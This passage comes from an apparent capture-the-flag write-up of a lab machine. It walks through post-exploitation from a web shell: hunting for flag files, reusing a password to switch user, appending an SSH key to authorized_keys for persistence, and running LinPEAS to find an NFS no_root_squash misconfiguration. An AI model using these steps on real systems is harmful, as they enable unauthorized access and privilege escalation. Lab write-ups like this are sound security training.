 ```
whoami
apache
sh-4.4$ find / -name *flag -type f 2>/dev/null
find / -name *flag -type f 2>/dev/null
/usr/sbin/grub2-set-bootflag
/usr/share/httpd/web.flag
sh-4.4$ cat /usr/share/httpd/web.flag
cat /usr/share/httpd/web.flag
thm{CENSORED}
sh-4.4$ ls /home
ls /home
james
paradox
```
I found the web flag and also learned of the users james and paradox on the box. I then thought to check if paradox reuses passwords:

```
sh-4.4$ su paradox
su paradox
Password: ShibesAreGreat123
whoami
paradox
```

He did! I still didn't have access to Python or Perl, so I still didn't have a TTY shell. Let's fix that by adding our public key to paradox's ~/.ssh/authorized_keys list, so we can SSH in.

```
echo 'ssh-rsa {public-key} kali@heart' >> /home/paradox/.ssh/authorized_keys
exit
┌──(kali㉿heart)-[~]
└─$ ssh 10.10.65.108 -l paradox
Last login: Sun Jan 17 22:39:03 2021
[paradox@ip-10-10-65-108 ~]$ ls
backup.zip  CustomerDetails.xlsx  CustomerDetails.xlsx.gpg  priv.key
```
I checked some common escalation pathways but came up short, so I ran LinPEAS.
```
[paradox@ip-10-10-68-24 ~]$ cd /var/www/html
[paradox@ip-10-10-68-24 html]$ ls
backups  hallway.jpg  index.html  linpeas.sh  main.css  overpass.svg  rev.php
[paradox@ip-10-10-68-24 html]$ bash linpeas.sh
 Starting linpeas. Caching Writable Folders...
...
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
...
```
LinPEAS discovered that /home/james is being shared using Network File Share (NFS) and that it is misconfigured. User paradox does not have `sudo` permissions, so I could not explicitly `sudo mount` it. However, I realized the port the share was on could be forwarded out and my Attack box could mount it with privileges. Let's check the port:
```
[paradox@ip-10-10-68-24 ~]$ rpcinfo -p
   program vers proto   port  service
...
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  53606  nlockmgr
...
```